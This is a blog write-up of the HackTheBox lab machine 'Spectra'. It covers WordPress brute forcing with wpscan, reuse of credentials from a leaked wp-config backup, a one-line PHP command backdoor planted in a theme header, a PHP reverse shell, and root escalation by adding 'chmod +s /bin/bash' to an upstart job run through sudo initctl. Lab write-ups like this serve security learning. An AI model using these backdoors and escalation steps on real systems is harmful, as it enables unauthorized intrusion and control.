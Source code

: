 ```yaml
---
layout: post
title: "HTB - Spectra"
author: "BoT"
tags: "cybersecurity hackthebox"
excerpt_separator: <!--more-->
---
```


Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just `http://spectra.htb` via browser.

![webserver](../assets/202106_htb_spectra/0_webserver_hint.png)
![ip-hostname-mapping](../assets/202106_htb_spectra/1_host_mapping.png)

While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.

![sql-credentials](../assets/202106_htb_spectra/2_sql_credentials.png)

As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!

![successful-rce](../assets/202106_htb_spectra/3_rce.png)

Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!

![php-reverse-shell](../assets/202106_htb_spectra/4_php_reverse_shell.png)
![web-shell](../assets/202106_htb_spectra/5_web_shell.png)

#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```

![database-credentials](../assets/202106_htb_spectra/6_more_db_credentials.png)
![database-enumeration](../assets/202106_htb_spectra/7_interesting_hash.png)

After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.

![autologin-credentials](../assets/202106_htb_spectra/8_autologin_credentials.png)

Great! I can now SSH to user with the credentials!

![ssh-katie](../assets/202106_htb_spectra/9_ssh_successful.png)
![local.txt](../assets/202106_htb_spectra/10_local.png)

### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.

![sudo-permissions-available](../assets/202106_htb_spectra/11_sudo_permission.png)

Katie also has write permission at various test files located in `/etc/init`.

![write-permision-available](../assets/202106_htb_spectra/12_write_permission.png)

A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```

![pe-vector](../assets/202106_htb_spectra/13_pe_vector.png)
![proof.txt](../assets/202106_htb_spectra/14_proof.png)
